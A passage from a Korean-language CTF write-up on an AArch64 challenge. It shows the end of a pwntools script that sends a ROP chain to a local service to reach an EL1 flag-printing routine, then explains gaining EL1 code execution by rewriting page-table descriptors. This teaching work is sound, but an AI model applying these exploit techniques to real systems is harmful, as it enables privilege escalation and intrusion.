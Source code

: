 ```python
            mov x2, 1;\n
            ldr x5, ={el0_elf.symbols['read']};\n
            blr x5;\n
            
            add x22, x22, 1;\n
            cmp x22, x23;\n
            b.lt read_rop_chain
        
        mov x0, 0;\n
        ldr x1, ={hex(EL1_SYSCALL_HANDLER_RET_ADDR+1)};\n
        mov x2, 1;\n
        ldr x5, ={el0_elf.symbols['read']};\n
        blr x5;\n
        """
        + el0_additional_assembly
    )
    p.send(rop_chain)
    p.send(b"\x94")


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
el0_elf = ELF("./el0")

EL1_PRINT_FLAG = 0xFFFFFFFFC0008408
chain = [0, EL1_PRINT_FLAG]
el1_return_oriented_programming(chain)

p.recvuntil(b"Flag (EL1): ")
FLAG = p.recvline()[:-1]
print(f"Flag: {FLAG.decode()}")
```

#### Arbitrary Code Execute

EL1 에서의 임의 코드 실행은 Page Table 을 변경하여 수행할 수 있다. EL1 에서의 `TTBR0_EL1` 과 `TTBR1_EL1` 은 각각 `0x20000` 와 `0x1B000` 로 설정되어 있다. 또한 이 주소 값은 `PA:0x40020000` 와 `PA:0x4001B000` 과 같다.

다음 그림을 보면 알 수 있듯 `PA:0x400nn000` 은 `EL1:0xFFFF_FFFF_C00n_n000` 과 매핑되어 있다는 것을 알 수 있다. 그러면 상기한 read 의 취약점을 이용해서 `TTBRn_EL1` 에 있는 Page Descriptor 들을 바꿀 수 있다.  
